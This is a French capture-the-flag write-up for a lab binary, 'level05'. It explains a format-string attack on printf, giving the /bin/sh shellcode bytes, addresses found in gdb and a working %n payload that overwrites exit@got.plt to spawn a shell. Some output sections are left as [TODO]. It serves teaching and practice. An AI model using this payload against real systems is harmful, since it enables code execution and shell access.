 # Level 05

## Le code

Pour ce niveau 5, on monte d'un cran.

Le programme fait quelques trucs, mais il peut être résumé par:

```txt
char buf[100];
fgets(buf, 100, stdin);
printf(buf);
exit(0);
```

## `printf`

La surface vulnérable est encore sur un `printf` qui a pour entrée
un chaine que l'on peut choisir.

`printf` peut être utilisé de deux manières:

1. On peut l'utiliser pour afficher ce qui se trouve sur la stack, en utilisant
   par example `%08x` pour afficher les 4 derniers octets de la stack.

2. On peut l'utiliser pour écrire des données avec `%n`.

Une bonne resource pour apprendre comment exploiter `printf`: https://cs155.stanford.edu/papers/formatstring-1.2.pdf

Habituellement, l'idée serait d'utiliser `%n` pour modifier l'adresse de retour
de `main` pour la faire partir sur `system` avec `/bin/sh` en paramètre. Cette fois,
on ne peut pas faire comme ça car la fonction `exit` est utilisée, ce qui veut dire
que la fonction ne va jamais se terminer.

Ainsi, une manière d'attaque le programme est de modifier la fonction `exit` et la
remplacer par un shellcode.

## Le plan

Voilà le plan d'attaque:

1. Trouver [un shell code](https://shell-storm.org/shellcode/files/shellcode-585.html) qui lance `/bin/sh`.

2. Placer le shellcode dans la mémoire du programme.

3. Modifier l'adresse de `exit@got.plt` pour qu'elle pointe vers notre shell code.

## Exécution

### Shellcode

Placer le shellcode dans la mémoire du programme est en fait assez simple:
il suffit de le mettre dans les variables d'environnement, qui sont toujours
chargées juste avant la fonction `main` au lancement du programme.

```sh
export SHELLCODE=$(python -c "print '\x90'*50 + '\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'")
```

On notera qu'on ajoute des `0x90`, des instructions NOP qui s'assureront qu'une adresse
alignée sur 16 bits octets existe dans la mémoire.

### Trouver les adresses

Pour pouvoir modifiers l'adresse de `exit` et la remplacer par
celle de notre shellcode, encore faut-il connaître leurs adresses
dans la mémoire.

Pour ça, on peut utiliser `gdb`.

```txt
gdb> x/100x $esp
[TODO]
```

En cherchant la série de `0x90`, on trouve assez rapidement une adresse
correctement alignée de notre shellcode.

```txt
gdb> print &exit@got.plt
0x80497e0
```

| Shellcode  | exit@got.plt |
----------------------------
| 0xffffd8c0 | 0x80497e0    |

### Trouver notre input

```
Stack:

| trucs  |
---------- <- Buffer de `fgets`
|bonjour |
|à tous! |
|        |
|        |
|        |
|        |
|        |
|        |
----------
| trucs  |
```

L'idée, c'est qu'en ajoutant des `%08x` dans l'input de `printf`, on peut
afficher l'intégralité de la stack. Cela inclu notament notre chaine d'entrée.

Par example, en utilisant une chaine de caractère reconnaissable, on peut
déterminer la distance de notre input par rapport à l'appel de `printf`
sur la stack.

```txt
./level05
aaaabbbbcccc%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
[TODO]
```

Nous permet de déterminer que `aaaa` est à une distance de 80 octets. `bbbb`
est à 72 octets, etc.

Pour éviter de devoir écrire tout ces `%08x`, on peut utiliser la syntax
`%10$x` pour directement prendre le 10ième paramètre.

```txt
./level05
aaaa%10$x
```

Donne la bonne valeur.

### Modifier `exit`

En écrivant du texte, on peut choisir ce que `printf` va lire. Jusque là, on lui faisait
afficher `aaaa`, mais on peut aussi l'utiliser pour écrire. `%n` va lire `aaaa` et
écrire à l'adresse `0x61616161` le nombre de caractère qui ont déjà été écrits.

Ainsi,

```
./level05
aaaa%10%n
```
Va écrire écrire `4` à l'adresse `0x61616161` (parce que "aaaa" a une taille de quatre).

L'idée est donc de remplacer:

- `aaaa` par l'adresse de `exit@got.plt`.

- `4` par l'adressed de notre shellcode.

```sh
python -c "print '\xe0\x97\x04\x08%4294957240x%10\$n'") > input
cat input | ./level05
```

On note que `%4294957240x` ajoute `4294957240` charactères à l'input, ce qui,
avec les 4 charactères de départ, donne 4294957248, qui est l'adresse de notre
shellcode en décimal.

Malheureusement, ce code ne marche pas car `printf` utilise un `int`, qui overflow
lorsqu'on lui donne notre adresse. On est donc contrain d'écrire notre valeur
en deux fois.

```sh
python -c "print '\xe0\x97\x04\x08\xe2\x97\x04\x08%55488x%10\$n%10039x%11\$n'" > input
cat input | ./level05
```

Cette fois ci, on écrit à deux adresses différentes, qui correspondent au deux premiers
et deux suivant octets de l'adresse de `exit@got.plt`.

Cette fois ci, l'expoit est fonctionnel.
